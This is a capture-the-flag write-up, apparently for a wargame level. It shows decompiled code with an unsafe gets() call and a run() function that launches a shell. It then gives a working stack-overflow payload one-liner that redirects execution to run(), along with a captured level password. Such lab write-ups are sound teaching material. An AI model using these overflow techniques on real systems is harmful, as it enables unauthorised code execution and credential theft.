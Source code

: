 ## Step 1: Static analysis

```asm
08048444  int32_t run()
08048444  {
0804846d      fwrite("Good... Wait what?\n", 1, 0x13, stdout);
0804847f      return system("/bin/sh");
08048444  }
```

```asm
08048480  int32_t main(int32_t argc, char** argv, char** envp)
08048480  {
08048496      void buf;
08048496      return gets(&buf);
08048480  }
```

### Explanation

The goal is to overwrite the return address in the stack with the address of the `run()` function (`0x08048444`), causing the program to execute the shell.

1. Determine the buffer size:
   - The size of `buf` (the buffer being overflowed) is 76 bytes before the saved return address.

2. Craft the payload:
   - Fill the buffer with 76 'A's to reach the return address.
   - Overwrite the return address with the address of `run()` (`0x08048444`), written in little-endian format as `'\x44\x84\x04\x08'`.

## Step 2: Exploit the Binary

```bash
python -c "print(('A' * 76) + '\x08\x04\x84\x44'[::-1])" > /tmp/exploit
cat /tmp/exploit - | ./level1
"Good... Wait what?"
% cd ../level2
% cat .pass
53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
```

The `cat /tmp/exploit - | ./level1` command sends the exploit payload to the program and keeps the input stream open for further interaction. The `-` ensures that after the payload is sent, the shell remains interactive, allowing you to execute commands.

Without `-`, the input stream would terminate after sending the payload, closing the shell immediately.

[StackOverflow: Why can't I open a shell from a pipelined process?](https://unix.stackexchange.com/questions/203012/why-cant-i-open-a-shell-from-a-pipelined-process)
